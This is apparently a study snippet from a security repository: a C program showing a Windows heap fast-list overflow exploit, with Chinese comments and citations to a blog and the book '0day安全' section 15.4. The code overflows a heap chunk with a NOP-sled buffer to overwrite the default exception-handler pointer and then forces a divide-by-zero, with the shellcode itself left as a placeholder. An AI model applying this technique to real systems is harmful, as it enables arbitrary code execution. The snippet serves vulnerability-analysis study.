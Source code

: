 ```c
#include<stdio.h>
#include<windows.h>
void main(){
		char shellcode []= 
			"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" //填充 
			"\x03\x00\x03\x00\x5C\x01\x08\x99" //填充
			"\xE4\xFF\x13\x00" //用默认异常处理函数指针所在位置覆盖
    		"shellcode  ........ ";
		HLOCAL h1,h2,h3;
		HANDLE hp;
		int zero=0;
		hp = HeapCreate(0,0,0);
		__asm int 3
		h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
		h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
		h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
		HeapFree(hp,0,h3);  // 快表的申请和释放都是在头部。
		HeapFree(hp,0,h2);
		memcpy(h1,shellcode,300);
		h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
		h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
		memcpy(h3,"\x90\x1E\x3A\x00",4);  // \x90\x1E\x39\x00 向目标地址写入的地址
		zero=1/zero;
		printf("%d",zero);
}


```



## 参考

http://blog.csdn.net/zcc1414/article/details/22397707

《0day安全 软件漏洞分析技术第二版》15.4

